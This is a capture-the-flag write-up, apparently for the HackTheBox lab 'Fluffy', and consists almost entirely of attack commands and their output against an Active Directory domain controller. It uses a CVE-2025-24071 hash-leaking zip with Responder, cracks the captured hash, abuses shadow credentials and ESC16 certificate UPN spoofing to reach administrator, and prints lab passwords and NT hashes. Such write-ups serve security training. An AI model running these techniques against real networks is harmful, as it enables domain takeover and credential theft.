

# Fluffy

<figure><figcaption></figcaption></figure>

### Enumeration Phase

```bash
┌──(kali㉿kali)-[~/Downloads/fluffy]
└─$ nmap -sC -sV 10.10.11.69       
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-03 11:38 +08
Nmap scan report for 10.10.11.69
Host is up (0.018s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-03 10:16:58Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2025-06-03T10:18:24+00:00; +6h38m34s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2025-06-03T10:18:23+00:00; +6h38m34s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-03T10:18:24+00:00; +6h38m34s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2025-06-03T10:18:23+00:00; +6h38m34s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-06-03T10:17:44
|_  start_date: N/A
|_clock-skew: mean: 6h38m33s, deviation: 0s, median: 6h38m33s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.28 seconds

```

### Checking for file in SMB

```bash
└─$ smbclient -L //10.10.11.69 -U j.fleischman%J0elTHEM4n1990!
do_connect: Connection to 10.10.11.69 failed (Error NT_STATUS_IO_TIMEOUT)
                                                                                                          
┌──(kali㉿kali)-[~/Downloads/fluffy]
└─$ smbclient -L //10.10.11.69 -U j.fleischman%J0elTHEM4n1990!

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        IT              Disk      
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
tstream_smbXcli_np_destructor: cli_close failed on pipe srvsvc. Error was NT_STATUS_IO_TIMEOUT
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.69 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```

```bash
└─$ smbclient //10.10.11.69/IT -U j.fleischman                
Password for [WORKGROUP\j.fleischman]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Jun  3 18:18:20 2025
  ..                                  D        0  Tue Jun  3 18:18:20 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 23:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 23:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 23:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 23:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 22:31:07 2025

                5842943 blocks of size 4096. 1370283 blocks available
smb: \> get Upgrade_Notice.pdf 
getting file \Upgrade_Notice.pdf of size 169963 as Upgrade_Notice.pdf (982.1 KiloBytes/sec) (average 982.1 KiloBytes/sec)
smb: \> SMBecho failed (NT_STATUS_HOST_UNREACHABLE). The connection is disconnected now

```

### CVE-2025-24071

Refer this : [https://github.com/0x6rss/CVE-2025-24071\_PoC/blob/main/README.md](https://github.com/0x6rss/CVE-2025-24071_PoC/blob/main/README.md)

```bash
┌──(kali㉿kali)-[~/Downloads/fluffy]
└─$ python3 poc.py        
Enter your file name: testing
Enter IP (EX: 192.168.1.162): 10.10.14.16
completed
                                                                                                          
┌──(kali㉿kali)-[~/Downloads/fluffy]
└─$ ls
exploit.zip  poc.py  Upgrade_Notice.pdf
```

Set Responder

```bash
┌──(kali㉿kali)-[~/Downloads/fluffy]
└─$ sudo responder -I tun0 -v
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.16]
    Responder IPv6             [dead:beef:2::100e]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-TW9OOEXLG6G]
    Responder Domain Name      [8XPK.LOCAL]
    Responder DCE-RPC Port     [45121]

[+] Listening for events...                                                                               

[SMB] NTLMv2-SSP Client   : 10.10.11.69
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:d172605fe8d67b7c:38B9FE7F1D0112EBFF83DEC544DF354E:010100000000000080D7CE3A83D4DB016B175E1432AFB6A300000000020008003800580050004B0001001E00570049004E002D005400570039004F004F00450058004C0047003600470004003400570049004E002D005400570039004F004F00450058004C004700360047002E003800580050004B002E004C004F00430041004C00030014003800580050004B002E004C004F00430041004C00050014003800580050004B002E004C004F00430041004C000700080080D7CE3A83D4DB010600040002000000080030003000000000000000010000000020000051254880692A02D790AEC948AEC384D44732154C4AAC6A5BFBAB8B4F8DC20D0D0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00310036000000000000000000
```

Crack the NTLM hash

```bash
┌──(kali㉿kali)-[~/Downloads/fluffy]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt test.hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
prometheusx-303  (p.agila)     
1g 0:00:00:01 DONE (2025-06-03 12:38) 0.6493g/s 2933Kp/s 2933Kc/s 2933KC/s proquis..programmercomputer
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

### Bloodhounds

```bash
┌──(kali㉿kali)-[~/Downloads/fluffy/blood2]
└─$ bloodhound-python -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -d fluffy.htb -c All -ns 10.10.11.69
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: fluffy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc01.fluffy.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 10 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.fluffy.htb
INFO: Done in 00M 17S
                                                                                                                                            
┌──(kali㉿kali)-[~/Downloads/fluffy/blood2]
└─$ ls
20250603144707_computers.json   20250603144707_domains.json  20250603144707_groups.json  20250603144707_users.json
20250603144707_containers.json  20250603144707_gpos.json     20250603144707_ous.json
```

### Modify Group Membership

```bash
┌──(kali㉿kali)-[~/Downloads/fluffy]
└─$ net rpc group addmem "SERVICE ACCOUNTS" "p.agila" -U "p.agila"%"prometheusx-303" -S 10.10.11.69 
                                                                                                                                            
┌──(kali㉿kali)-[~/Downloads/fluffy]
└─$ net rpc group addmem "SERVICE ACCOUNTS" "p.agila" -U "p.agila"%"prometheusx-303" -S 10.10.11.69          
Could not add p.agila to SERVICE ACCOUNTS: NT_STATUS_MEMBER_IN_GROUP
```

### Shadow Credentials

```bash
┌──(kali㉿kali)-[~/Downloads/fluffy]
└─$ certipy-ad shadow auto -u 'p.agila@fluffy.htb' -p 'prometheusx-303'  -account 'WINRM_SVC'  -dc-ip '10.10.11.69'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'cd69831f-b35d-e6b3-f138-8f72f8a3f1e1'
[*] Adding Key Credential with device ID 'cd69831f-b35d-e6b3-f138-8f72f8a3f1e1' to the Key Credentials for 'winrm_svc'
[*] Successfully added Key Credential with device ID 'cd69831f-b35d-e6b3-f138-8f72f8a3f1e1' to the Key Credentials for 'winrm_svc'
[*] Authenticating as 'winrm_svc' with the certificate
[*] Using principal: winrm_svc@fluffy.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'winrm_svc.ccache'
[*] Trying to retrieve NT hash for 'winrm_svc'
[*] Restoring the old Key Credentials for 'winrm_svc'
[*] Successfully restored the old Key Credentials for 'winrm_svc'
[*] NT hash for 'winrm_svc': 33bd09dcd697600edf6b3a7af4875767

─$ evil-winrm -i 10.10.11.69 -u winrm_svc -H 33bd09dcd697600edf6b3a7af4875767
                                   
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> ls
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> cd ..
*Evil-WinRM* PS C:\Users\winrm_svc> ls


    Directory: C:\Users\winrm_svc


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        5/17/2025  11:56 AM                Desktop
d-r---        5/19/2025   9:15 AM                Documents
d-r---        9/15/2018  12:19 AM                Downloads
d-r---        9/15/2018  12:19 AM                Favorites
d-r---        9/15/2018  12:19 AM                Links
d-r---        9/15/2018  12:19 AM                Music
d-r---        9/15/2018  12:19 AM                Pictures
d-----        9/15/2018  12:19 AM                Saved Games
d-r---        9/15/2018  12:19 AM                Videos


*Evil-WinRM* PS C:\Users\winrm_svc> cd Desktop
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> ls


    Directory: C:\Users\winrm_svc\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         6/3/2025   4:07 AM             34 user.txt


*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> cat user.txt
```

### ESC16

```bash
┌──(certipy-venv)─(kali㉿kali)-[~/Downloads/fluffy]
└─$ certipy find -username ca_svc -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.10.11.69 -vulnerable
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 14 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'fluffy-DC01-CA' via RRP
[*] Successfully retrieved CA configuration for 'fluffy-DC01-CA'
[*] Checking web enrollment for CA 'fluffy-DC01-CA' @ 'DC01.fluffy.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Saving text output to '20250603224228_Certipy.txt'
[*] Wrote text output to '20250603224228_Certipy.txt'
[*] Saving JSON output to '20250603224228_Certipy.json'
[*] Wrote JSON output to '20250603224228_Certipy.json'
                                                                                                                                            
┌──(certipy-venv)─(kali㉿kali)-[~/Downloads/fluffy]
└─$ la
20250603224228_Certipy.json  blood   exploit.zip  poc.py     Upgrade_Notice.pdf
20250603224228_Certipy.txt   blood2  passwd.txt   test.hash  winrm_svc.ccache
                                                                                                                                            
┌──(certipy-venv)─(kali㉿kali)-[~/Downloads/fluffy]
└─$ cat 20250603224228_Certipy.txt                                                                        
Certificate Authorities
  0
    CA Name                             : fluffy-DC01-CA
    DNS Name                            : DC01.fluffy.htb
    Certificate Subject                 : CN=fluffy-DC01-CA, DC=fluffy, DC=htb
    Certificate Serial Number           : 3670C4A715B864BB497F7CD72119B6F5
    Certificate Validity Start          : 2025-04-17 16:00:16+00:00
    Certificate Validity End            : 3024-04-17 16:11:16+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Disabled Extensions                 : 1.3.6.1.4.1.311.25.2
    Permissions
      Owner                             : FLUFFY.HTB\Administrators
      Access Rights
        ManageCa                        : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        ManageCertificates              : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        Enroll                          : FLUFFY.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
Certificate Templates                   : [!] Could not find any certificate templates
```

**Step 1: Read the initial UPN of the victim's account.**

```bash
└─$ certipy account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -user 'ca_svc' read                         
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Reading attributes for 'ca_svc':
    cn                                  : certificate authority service
    distinguishedName                   : CN=certificate authority service,CN=Users,DC=fluffy,DC=htb
    name                                : certificate authority service
    objectSid                           : S-1-5-21-497550768-2797716248-2627064577-1103
    sAMAccountName                      : ca_svc
    servicePrincipalName                : ADCS/ca.fluffy.htb
    userPrincipalName                   : administrator
    userAccountControl                  : 66048
    whenCreated                         : 2025-04-17T16:07:50+00:00
    whenChanged                         : 2025-06-03T14:53:17+00:00
```

**Step 2: Update the UPN of the victim’s account to the target manager `sAMAccountName`.**

```bash
└─$ certipy account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69'  -upn 'administrator'  -user 'ca_svc' update
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_svc'
```

**Step 3: Request a certificate issued by a user of “ the victim” from any suitable customer-end identity verification template\* (for example, “ user” on CA that is vulnerable to ESC16**

```bash
┌──(certipy-venv)─(kali㉿kali)-[~/Downloads/fluffy]
└─$ certipy shadow -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -account 'ca_svc' auto
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '0f22c33d-ab3f-3599-5642-5b5e2b89c9c1'
[*] Adding Key Credential with device ID '0f22c33d-ab3f-3599-5642-5b5e2b89c9c1' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '0f22c33d-ab3f-3599-5642-5b5e2b89c9c1' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'ca_svc@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ca_svc.ccache'
[*] Wrote credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8
                                                                                                                                            
┌──(certipy-venv)─(kali㉿kali)-[~/Downloads/fluffy]
└─$ export KRB5CCNAME=ca_svc.ccache
```

Then request a certificate

```bash
└─$ certipy req -k -dc-ip '10.10.11.69' -target 'DC01.FLUFFY.HTB' -ca 'fluffy-DC01-CA' -template 'User'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DC host (-dc-host) not specified and Kerberos authentication is used. This might fail
[*] Requesting certificate via RPC
[*] Request ID is 16
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx
```

**Step 4: Restore the UPN of the “ victim ” account.**

```bash
└─$ certipy account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -upn 'ca_svc@fluffy.htb' -user 'ca_svc' update
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : ca_svc@fluffy.htb
[*] Successfully updated 'ca_svc'
```

**Step 5: Perform identity verification as the target administrator.**

```bash
└─$ certipy auth -dc-ip '10.10.11.69' -pfx 'administrator.pfx' -username 'administrator' -domain 'fluffy.htb'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
File 'administrator.ccache' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
```

### Evil-WinRM

```bash
└─$ evil-winrm -i 10.10.11.69 -u administrator -H 8da83a3fa618b6e3a00e93f676c92a6e                                                  
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         6/3/2025   4:07 AM             34 root.txt
```
